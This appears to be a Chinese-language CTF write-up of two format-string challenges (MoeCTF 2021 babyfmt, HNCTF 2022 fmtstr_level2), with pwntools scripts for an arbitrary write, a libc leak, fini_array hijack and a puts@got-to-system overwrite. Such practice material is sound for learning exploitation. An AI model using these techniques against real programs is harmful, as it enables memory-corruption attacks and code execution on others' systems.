 用%(num)c来填充(num)Byte

## [MoeCTF 2021]babyfmt
也是继续练习手写。
这题就是一个最简单的任意地址写。
offset为10，写为4很简单
主要是写为0(<1个字的)需要注意，我们的格式化字符串
`%11$n`已经占了5个字符(>1个字)了，所以应该补到8个字符然后偏移+1=12
即
```py
offset = 10
target = 0x0804C044

pl = b''

pl += ("%12$naaa").encode() # 0
pl += p32(target) # offset: 12
print(pl)
sla("name:",pl)
#debug()
sla("passwd:","0")
```

## [HNCTF 2022 WEEK2]fmtstr_level2

深化理解。

64位的格式化字符串。
泄露libc => puts@got -> system@libc
劫持fini_array -> main

注意，64位的修改（手写）：
在64位系统上，使用格式化字符串漏洞来覆盖内存地址时，不同的格式说明符对应不同大小的写入操作。下面是各个格式说明符及其作用：

- %num$hhn：写入一个字节（1B）
- %num$hn：写入两个字节（2B）
- %num$n：写入四个字节（4B）
- %num$lln：写入八个字节（8B）

然后就是对numwritten的深入理解。
我们用的是`%38$n`来泄露Libc，但要对其p64，所以要+'aaa'
这样的话，我们已经输出了14(0x7fc6a1cdf2e8)+3(aaa)=17个，所以用fmtstr_payload的时候要指定`numwritten`选项为0x11

```py
offset = 6
fini = 0x4031f0 # 0x00401180
main = 0x4011B6
puts_got = elf.got['puts']

# 1. ret2libc -> system
pl = b''
pl += b'%38$paaa' # __exit_funcs_lock
pl += fmtstr_payload(7,{fini:main},numbwritten = 0x11)
print(pl)
sla("ID\n",pl)

leak = int(p.recv(14),16)
info_addr("__exit_funcs_lock",leak)
# libcbase: 0x7fc6a1aee000
# leak:     0x7fc6a1cdf2e8
libcbase = leak - (0x7fc6a1cdf2e8-0x7fc6a1aee000)
info_addr("libcbase",libcbase)
system = libcbase + libc.sym['system']

pl = fmtstr_payload(6,{puts_got:system})
sla("ID\n",pl)
```